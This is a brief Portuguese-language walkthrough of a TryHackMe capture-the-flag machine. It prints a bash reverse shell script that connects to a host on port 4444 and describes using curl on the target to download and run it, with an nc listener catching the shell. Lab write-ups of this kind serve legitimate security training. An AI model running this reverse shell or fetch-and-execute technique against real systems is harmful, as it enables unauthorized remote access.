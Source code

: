 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

### Parece que a mquina tem um curl ,da pra subir um arquivo shell em servidor python com o script do shelRev baixar na maquina com o curl , executar e escutar a resposta do outro lado

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)
### dentro do arquivo shell_2.sh

```shell
  #!/bin/bash
  bash -i >& /dev/tcp/192.168.100.168/4444 0>&1

```

### Dentro dessa pasta vamos subir o servidor pyhton para baixar com o curl
![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### No site vamos colocar o comando do curl para baixar o arquivo e em seguida ja executa-lo | shel_2
![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### no outro terminal eu fico na escuta do nc -nlvp 4444
![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

### shel recebido agora fazer post exploration e escalar previlegio
